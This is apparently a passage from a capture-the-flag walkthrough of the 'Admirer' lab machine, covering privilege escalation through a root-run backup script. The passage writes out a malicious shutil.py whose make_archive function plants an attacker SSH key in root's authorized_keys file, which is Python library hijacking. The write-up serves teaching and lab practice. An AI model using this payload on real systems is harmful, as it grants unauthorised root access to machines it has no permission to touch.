 Let us read the source of the admin_tasks.sh script.

```bash
waldo@admirer:~$ cat /opt/scripts/admin_tasks.sh
[...]
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
[...]
```
Seems like another script called `backup.py` is being executed. Let us have a look at this python-script as well.

```python
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
At first sight this script looks uninteresting, however, seeing that make_archive is imported. This can be used to force the script to import our malicious python library instead and run arbitrary python-code.

### Exploiting Python library injection

Let us generate a malicious python library.

#### Generating the malicious library

```python
root@darkness:~# cat shutil.py
#!/usr/bin/python3

import os

def make_archive(param1, param2, param3):
    key = 'GENERATED-SSH-KEY' # Insert SSH-key here
    cmd = ('mkdir /root/.ssh/; echo "%s" > /root/.ssh/authorized_keys' % key)
    os.system(cmd)
```
The python library, contains a malicious `make_archive` function that upon execution writes our ssh-key to root’s authorized_keys file.
